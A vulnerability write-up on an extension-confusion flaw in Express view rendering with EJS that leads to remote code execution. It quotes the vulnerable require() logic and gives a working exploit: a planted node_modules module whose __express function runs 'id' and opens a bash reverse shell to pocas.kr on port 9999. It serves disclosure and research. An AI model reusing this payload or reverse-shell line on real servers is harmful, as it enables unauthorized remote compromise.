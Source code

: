 ## Check ejs extension management logic

![https://media.discordapp.net/attachments/1049498153801502740/1053999809608044574/2022-12-18_20.38.48.png?width=1550&height=977]

- http://localhost:3000/?filename=test
- http://localhost:3000/?filename=test.ejs

I checked how the extension is managed in the logic that handles the extension of the file passed to the `render()` function. When I pass files like `render(‘test’)`, `render(‘test.ejs’)`, all extensions are ejs .

![](https://media.discordapp.net/attachments/1049498153801502740/1054001435366395904/2022-12-18_20.45.13.png?width=1550&height=977)

- http://localhost:3000/?filename=rce.pocas

However, when the `render()` function is called like `render(‘rce.pocas’)`, `“pocas”`, not `“ejs”`, is included in the extension. Since the engine type was set to `“ejs”` using `app.set()` in express, the extension should be ejs in any case, but an arbitrary extension can be inserted because there is no exception handling.

```javascript
var mod = this.ext.slice(1)
debug('require "%s"', mod)

// default engine export
var fn = require(mod).__express
```

That is, I can manipulate the extension and call the JavaScript library I want through the code above! Through the above function, get the `__express` function of the desired file, put it in this.engine variable, and execute `this.engine()` in `view.prototype.render()` function. If a hacker can upload a desired file under node_modules using the file upload function, the desired function code can be inserted into this.engine variable and executed.

## Exploit

![](https://media.discordapp.net/attachments/1049498153801502740/1054003691281203230/2022-12-18_20.54.16.png)

```javascript
exports.__express = function() {
    console.log(require('child_process').execSync("id").toString());
    require('child_process').execSync("bash -c 'bash -i >& /dev/tcp/pocas.kr/9999 0>&1'");
}
```
For the test, a module called pocas was created under node_modules.

![](https://media.discordapp.net/attachments/1049498153801502740/1054009708169662464/2022-12-18_21.18.07.png?width=1550&height=977)

- http://localhost:3000/?filename=rce.pocas

As shown above, you can see that RCE is triggered by calling an arbitrary library using the extension confusing.

---
# Mitigation
